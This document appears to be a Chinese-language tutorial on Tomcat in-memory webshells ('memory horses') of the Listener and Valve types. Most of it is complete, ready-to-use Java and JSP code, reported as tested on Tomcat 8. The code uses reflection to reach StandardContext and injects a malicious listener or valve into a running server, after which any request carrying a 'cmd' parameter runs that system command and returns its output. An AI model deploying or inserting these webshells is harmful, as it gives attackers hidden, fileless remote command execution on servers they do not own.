





目录

- Listener 内存马
- Valve 内存马


> 已测试 tomcat8

### Listener 内存马

#### 静态添加Listener
- web.xml
- 注解 @WebListener

##### web.xml
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> <web-app version="4.0">
>     <listener>
>         <listener-class>com.example.tomcat8.listener.ListenerDemo</listener-class>
>     </listener>
> </web-app>
> ```



##### 注解 @WebListener

@WebListener

> ```java
> @WebListener
> public class ListenerDemo implements ServletRequestListener {
>     @Override
>     public void requestInitialized(ServletRequestEvent sre) {
>         HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
>         try {
>             SimpleDateFormat sdf = new SimpleDateFormat();
>             sdf.applyPattern("yyyy-MM-dd HH:mm:ss");
>             Date date = new Date();
>             System.out.println("Listener触发时间：" + sdf.format(date));
>             if (sre.getServletRequest().getParameter("cmd") != null){
>                 Process process = Runtime.getRuntime().exec(sre.getServletRequest().getParameter("cmd"));
>                 java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
>                 Field requestF = req.getClass().getDeclaredField("request");
>                 requestF.setAccessible(true);
>                 Request request = (Request)requestF.get(req);
>                 StringBuilder stringBuilder = new StringBuilder();
>                 String line;
>                 while ((line = bufferedReader.readLine()) != null) {
>                     stringBuilder.append(line + '\n');
>                 }
>                 request.getResponse().getOutputStream().write(stringBuilder.toString().getBytes());
>                 request.getResponse().getOutputStream().flush();
>                 request.getResponse().getOutputStream().close();
>             }
>         } catch (IOException | NoSuchFieldException | IllegalAccessException e) {
>             e.printStackTrace();
>         }
>     }
>     @Override
>     public void requestDestroyed(ServletRequestEvent sre) {
>     }
> }
> ```


#### 动态添加Listener
关于动态添加Listener，需要了解一下`ServletContext`接口addListener()方法。


> \# 查看该接口得实现类
>
> ctrl + alt + B




跟进ApplicationContext#addListener方法


可以发现，Listener添加的具体逻辑在方法`this.context.addApplicationEventListener(t)`。

继续跟进



可以发现，将传入的Listener对象添加到applicationEventListenersList，至此，Listener添加流程结束。

所以接下来将添加流程用代码实现即可：

- 自定义恶意的Listener
- 获取context (StandardContext)
- 反射调用addApplicationEventListener()动态添加Listener，实现Listener型内存马

step1-自定义listener

```
略
```

step2-获取context

> ```java
> // 从servletContext中获取context属性 -> applicationContext
> // 从applicationContext中获取context属性 -> standardContext*/
> ServletContext servletContext = request.getServletContext();
> Field appctx = servletContext.getClass().getDeclaredField("context");
> appctx.setAccessible(true);
> ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
> Field stdctx = applicationContext.getClass().getDeclaredField("context");
> stdctx.setAccessible(true);
> StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
> ```

step3-调用addApplicationEventListener()动态添加Listener

> ```java
> ListenerDemo SRL = new ListenerDemo();
> standardContext.addApplicationEventListener(SRL);
> out.println("listener shell inject success");
> ```

代码整合如下

> ```jsp
> <%@ page import="java.lang.reflect.Field" %>
> <%@ page import="org.apache.catalina.core.ApplicationContext" %>
> <%@ page import="org.apache.catalina.core.StandardContext" %>
> <%@ page import="java.io.IOException" %>
> <%@ page import="org.apache.catalina.connector.Request" %>
> <%
>     class ListenerDemo implements ServletRequestListener {
>         @Override
>         public void requestInitialized(ServletRequestEvent sre) {
>             HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
>             String cmd = sre.getServletRequest().getParameter("cmd");
>             try {
>                 if (cmd != null) {
>                     Process process = Runtime.getRuntime().exec(cmd);
>                     java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
>                     Field requestF = req.getClass().getDeclaredField("request");
>                     requestF.setAccessible(true);
>                     Request request = (Request) requestF.get(req);
>                     StringBuilder stringBuilder = new StringBuilder();
>                     String line;
>                     while ((line = bufferedReader.readLine()) != null) {
>                         stringBuilder.append(line + '\n');
>                     }
>                     request.getResponse().getOutputStream().write(stringBuilder.toString().getBytes());
>                     request.getResponse().getOutputStream().flush();
>                     request.getResponse().getOutputStream().close();
>                 }
>             } catch (NoSuchFieldException | IllegalAccessException | IOException e) {
>                 e.printStackTrace();
>             }
>         }
> 
>         @Override
>         public void requestDestroyed(ServletRequestEvent sre) {
> 
>         }
>     }
> %>
> <%
>     ServletContext servletContext = request.getServletContext();
>     Field appctx = servletContext.getClass().getDeclaredField("context");
>     appctx.setAccessible(true);
>     ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
>     Field stdctx = applicationContext.getClass().getDeclaredField("context");
>     stdctx.setAccessible(true);
>     StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
>     ListenerDemo SRL = new ListenerDemo();
>     standardContext.addApplicationEventListener(SRL);
>     out.println("listener shell inject success");
> %>
> ```
测试效果




### Valve 内存马

Tomcat内部Valve组件,与Filter, Interceptor这些概念类似.只不过Valve是针对Tomcat内部的，而Filter是Servlet的标准, Interceptor是基于框架层次上的.但是它们的工作方式都是一种责任链的传递来拦截Request, Response，然后进行自定义的处理。所以这里的valve型内存马也和之前的差不多，自定义一个含有恶意代码处理逻辑的valve接口的实现或valve接口实现类的继承，然后通过tomcat自带的机制添加即可。

#### 静态添加 valve

首先自定义可执行cmd的valve，实现Valve接口并重写其成员方法，核心代码块在invoke方法里

> EvilValve.java
>
> ```java
> package com.example.tomcat8;
> 
> import org.apache.catalina.Valve;
> import org.apache.catalina.connector.Request;
> import org.apache.catalina.connector.Response;
> 
> import javax.servlet.ServletException;
> import java.io.IOException;
> 
> public class EvilValve implements Valve{
>     @Override
>     public Valve getNext() {
>         return null;
>     }
> 
>     @Override
>     public void setNext(Valve valve) {
> 
>     }
> 
>     @Override
>     public void backgroundProcess() {
> 
>     }
> 
>     @Override
>     public void invoke(Request request, Response response) throws IOException, ServletException {
>         String cmd = request.getParameter("cmd");
>         if (cmd != null) {
>             Process process = Runtime.getRuntime().exec(cmd);
>             java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
>                     new java.io.InputStreamReader(process.getInputStream())
>             );
>             StringBuilder stringBuilder = new StringBuilder();
>             String line;
>             while ((line = bufferedReader.readLine()) != null) {
>                 stringBuilder.append(line + '\n');
>             }
>             response.getOutputStream().write(stringBuilder.toString().getBytes());
>             response.getOutputStream().flush();
>             response.getOutputStream().close();
>             getNext().invoke(request, response);
>         }else {
>             getNext().invoke(request, response);
>         }
>     }
> 
>     @Override
>     public boolean isAsyncSupported() {
>         return false;
>     }
> }
> ```


E:\Tomcat\apache-tomcat-8.5.70\conf\server.xml

> ```xml
> <Valve className="com.example.tomcat8.evilValve" />
> ```


测试失败-报错如下
 - 卡了很久没能解决，放弃




#### 动态添加 valve

- org.apache.catalina.core.ContainerBase#addValve


- org.apache.catalina.core.ContainerBase#pipeline


- org.apache.catalina.core.ContainerBase#getPipeline


捋清思路

- 自定义valve -> 实现valve接口，重写invoke方法
- 添加valve -> this.pipeline.addValve(valve)
- 获取this.pipeline -> ContainerBase#getPipeline
- 调用getPipeline -> 继承ContainerBase类
- ContainerBase类 -> `public class StandardContext extends ContainerBase implements...`
- 获取StandardContext

代码实现

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
standardContext.getPipeline().addValve(evilValve);
```

代码整合如下

> ```jsp
> <%@ page import="java.io.IOException" %>
> <%@ page import="java.lang.reflect.Field" %>
> <%@ page import="org.apache.catalina.core.ApplicationContext" %>
> <%@ page import="org.apache.catalina.core.StandardContext" %>
> <%@ page import="org.apache.catalina.connector.Request" %>
> <%@ page import="org.apache.catalina.connector.Response" %>
> <%@ page import="org.apache.catalina.Valve" %>
> <%@ page contentType="text/html;charset=UTF-8" language="java" %>
> <%
>     class EvilValve implements Valve {
>         @Override
>         public Valve getNext() {
>             return null;
>         }
>         @Override
>         public void setNext(Valve valve) {
> 
>         }
>         @Override
>         public void backgroundProcess() {
> 
>         }
>         @Override
>         public void invoke(Request request, Response response) throws IOException, ServletException {
>             String cmd = request.getParameter("cmd");
>             if (cmd != null) {
>                 Process process = Runtime.getRuntime().exec(cmd);
>                 java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
>                         new java.io.InputStreamReader(process.getInputStream())
>                 );
>                 StringBuilder stringBuilder = new StringBuilder();
>                 String line;
>                 while ((line = bufferedReader.readLine()) != null) {
>                     stringBuilder.append(line + '\n');
>                 }
>                 response.getOutputStream().write(stringBuilder.toString().getBytes());
>                 response.getOutputStream().flush();
>                 response.getOutputStream().close();
>                 getNext().invoke(request, response);
>             }else {
>                 getNext().invoke(request, response);
>             }
>         }
>         @Override
>         public boolean isAsyncSupported() {
>             return false;
>         }
>     }
> %>
> 
> <%
>     /**
>      * 已测试：tomcat8
>      */
>     try{
>         ServletContext servletContext = request.getSession().getServletContext();
>         Field appctx = servletContext.getClass().getDeclaredField("context");
>         appctx.setAccessible(true);
>         ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
>         Field stdctx;
>         stdctx = applicationContext.getClass().getDeclaredField("context");
>         stdctx.setAccessible(true);
>         StandardContext standardContext;
>         standardContext = (StandardContext) stdctx.get(applicationContext);
>         Valve evilValve = new EvilValve();
>         standardContext.getPipeline().addValve(evilValve);
>         out.println("valve shell inject success");
>     } catch (NoSuchFieldException | IllegalAccessException e) {
>         e.printStackTrace();
>     }
> %>
> ```

测试效果


